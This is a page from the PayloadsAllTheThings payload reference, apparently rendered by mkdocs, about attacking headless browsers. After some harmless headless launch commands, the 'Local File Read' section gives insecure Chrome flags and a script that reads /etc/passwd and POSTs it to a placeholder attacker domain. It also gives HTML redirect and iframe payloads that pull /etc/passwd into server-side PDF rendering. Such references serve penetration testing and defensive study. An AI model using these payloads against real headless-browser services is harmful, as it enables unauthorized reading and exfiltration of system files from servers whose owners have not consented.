

repository: swisskyrepo/PayloadsAllTheThings · page: Headless Browser/index.html · generator: mkdocs

# Headless Browser

> A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.
> Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.

## Summary

* [Headless Commands](#headless-commands)
* [Local File Read](#local-file-read)
* [Remote Debugging Port](#remote-debugging-port)
* [Network](#network)
    * [Port Scanning](#port-scanning)
    * [DNS Rebinding](#dns-rebinding)
* [CVE](#cve)
* [References](#references)

## Headless Commands

Example of headless browsers commands:

* Google Chrome

    ```ps1
    google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
    ```

* Mozilla Firefox

    ```ps1
    firefox --screenshot https://www.google.com
    ```

* Microsoft Edge

    ```ps1
    "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
    ```

## Local File Read

### Insecure Flags

If the target is launched with the `--allow-file-access` option

```ps1
google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run --disable-web-security -–allow-file-access-from-files --allow-file-access --allow-cross-origin-auth-prompt --user-data-dir
```

Since the file access is allowed, an atacker can create and expose an HTML file which captures the content of the `/etc/passwd` file.

```js
<script>
  async function getFlag(){
    response = await fetch("file:///etc/passwd");
    flag = await response.text();
  fetch("https://[ATTACKER.DOMAIN.TLD]/", { method: "POST", body: flag})
  };
  getFlag();
</script>
```

### PDF Rendering

Consider a scenario where a headless browser captures a copy of a webpage and exports it to PDF, while the attacker has control over the URL being processed.

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect

    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe

    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```
